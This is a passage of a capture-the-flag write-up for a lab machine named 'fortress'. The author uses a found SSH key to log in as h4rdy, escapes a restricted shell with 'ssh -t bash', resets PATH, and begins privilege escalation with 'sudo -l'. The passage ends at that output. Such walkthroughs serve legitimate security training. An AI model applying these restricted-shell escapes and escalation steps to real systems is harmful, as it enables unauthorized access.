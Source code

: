 We got the a text file. Let’s access it.

![Screen Shot 2021-09-19 at 00.46.07.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/12FC3ED0-1187-4ADD-8D72-04D3A046FACB/B1D1E19D-530C-4EA2-9957-75A355E2309C_2/Screen%20Shot%202021-09-19%20at%2000.46.07.png)

SSH private key of ‘h4rdy’ user. Let’s copy and give right permissions to it and login.

```
⛩\> chmod 600 id_rsa_h4rdy

⛩\> ssh -i id_rsa_h4rdy h4rdy@fortress
Warning: Permanently added the ECDSA host key for IP address '10.10.171.78' to the list of known hosts.
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

Last login: Mon Jul 26 14:04:41 2021 from 192.168.150.128

h4rdy@fortress:~$ h4rdy@fortress:~$ id
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
```

As you can see we can’t execute ‘id’ command, that’s because we are in ‘restricted shell’ and it is not allowing any commands if it has ‘/‘ in it. We have exit and login again with an switch.

```
⛩\> ssh -i id_rsa_h4rdy h4rdy@fortress -t 'bash'

h4rdy@fortress:~$ id
Command 'id' is available in '/usr/bin/id'
The command could not be located because '/usr/bin' is not included in the PATH environment variable.
id: command not found

h4rdy@fortress:~$ echo $PATH
/home/h4rdy
```

Path variables are not defined. So, let’s define it first,

```
h4rdy@fortress:~$ export PATH=/usr/bin:/usr/sbin:/bin:/sbin

h4rdy@fortress:~$ echo $PATH
/usr/bin:/usr/sbin:/bin:/sbin
```

# Privilege Escalation - User (j4x0n)

```
h4rdy@fortress:~$ sudo -l

Matching Defaults entries for h4rdy on fortress:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User h4rdy may run the following commands on fortress:
    (j4x0n) NOPASSWD: /bin/cat
```
